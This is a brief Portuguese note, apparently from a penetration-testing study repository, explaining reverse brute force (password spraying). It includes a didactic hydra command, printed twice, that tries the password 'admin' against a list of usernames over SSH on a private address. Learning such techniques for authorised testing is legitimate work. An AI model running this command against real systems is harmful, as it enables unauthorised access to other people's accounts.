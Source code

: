 <h1 align="center"> Reverse Brute Force</h1>
<hr>

Realiza o ataque de forca bruta no login e nao na senha.

Exemplo:
Tentar usar uma senha especifica em diversos logins (100928)

Exemplo didatico:

hydra -v -L users.txt -p admin 172.16.1.5 ssh

```sh
hydra -v -L users.txt -p admin 172.16.1.5 ssh
```